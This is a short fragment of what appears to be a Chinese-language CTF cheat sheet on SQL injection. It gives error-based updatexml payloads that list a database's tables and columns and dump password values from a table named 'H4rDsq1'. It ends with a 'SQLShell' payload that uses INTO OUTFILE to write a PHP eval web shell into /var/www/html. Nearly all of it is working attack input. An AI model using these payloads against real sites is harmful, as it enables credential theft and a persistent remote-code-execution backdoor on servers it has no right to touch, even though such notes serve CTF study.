 ```
?username=0'or(updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),'~'),1))%23&password=xx
```

爆字段：id,username,password

```
?username=0'or(updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1))%23&password=xx
```

爆值

```
?username=0'or(updatexml(1,concat('~',(select(group_concat((left(password,25))))from(H4rDsq1)),'~'),1))%23&password=xx
//再用right()看后半部分,这里好像不太能使用floor型的报错
```





## SQLShell

```
id=l' union select 1,2," <?php @eval($_POST['x']);?>" into outfile "/var/www/html/cmd. php%23
```

